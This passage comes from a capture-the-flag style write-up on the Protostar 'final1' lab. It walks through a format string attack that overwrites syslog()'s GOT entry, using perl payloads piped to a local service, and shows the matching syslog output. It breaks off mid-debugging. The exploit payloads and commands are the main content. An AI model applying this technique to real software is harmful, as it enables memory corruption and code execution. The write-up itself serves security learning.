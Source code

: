In the syslog, this showed: 

```
Feb  4 23:23:17 protostar final1: Login from 127.0.0.1:36769 as [XAAAABBBBCCCCDDDD41414141424242424343434344444444] with password [B]
```

So you can see, it is now displaying the 4 words that are needed to be overwritten, "41414141", "42424242", "43434343", and "44444444".  If the address of "syslog()" (0x0804a11c) in the GOT is used, instead of these addresses, we can achieve an overwrite of "syslog()". 

Just to double-check, I put in the new addresses without the "%n" so that I could verify nothing was messed up: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "username "."X"."\x1c\xa1\x04\x08"."\x1d\xa1\x04\x08"."\x1e\xa1\x04\x08"."\x1f\xa1\x04\x08"."%15\$x"."%16\$x"."%17\$x"."%18\$x"."\nlogin B\n"' | nc localhost 2994
[final1] $ [final1] $ login failed
```

In the syslog, this showed: 

```
Feb  4 23:27:12 protostar final1: Login from 127.0.0.1:36770 as [X#034¡#004#010#035¡#004#010#036¡#004#010#037¡#004#010804a11c804a11d804a11e804a11f] with password [B]
```

Towards the end, you can see all the memory addresses being written out. 

The next logical step would be to replace the "%x" with "%n", and watch the program crash, as we try to write arbitrary values to the "syslog()" memory space before it gets called. 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "username "."X"."\x1c\xa1\x04\x08"."\x1d\xa1\x04\x08"."\x1e\xa1\x04\x08"."\x1f\xa1\x04\x08"."%15\$n"."%16\$n"."%17\$n"."%18\$n"."\nlogin B\n"' | nc localhost 2994
[final1] $ [final1] $ login failed
```

In the syslog, this showed: 

```
Feb  4 23:30:50 protostar final1: Login from 127.0.0.1:36772 as [X#034¡#004#010#035¡#004#010#036¡#004#010#037¡#004#010] with password [B]
```

This is not at all what I was expecting!  No crash, it tried to do the login.  But wait!  If I tried to continue sending commands in that same session, it seemed to have been messed up, since it does not even function properly, outputting the "[final1] $" string: 

```
[final1] $ username A
login B
```

I figured that maybe I had crashed it, and a core had been dumped.  But nothing appeared: 

```
user@protostar:/opt/protostar/bin$ ls /tmp
```
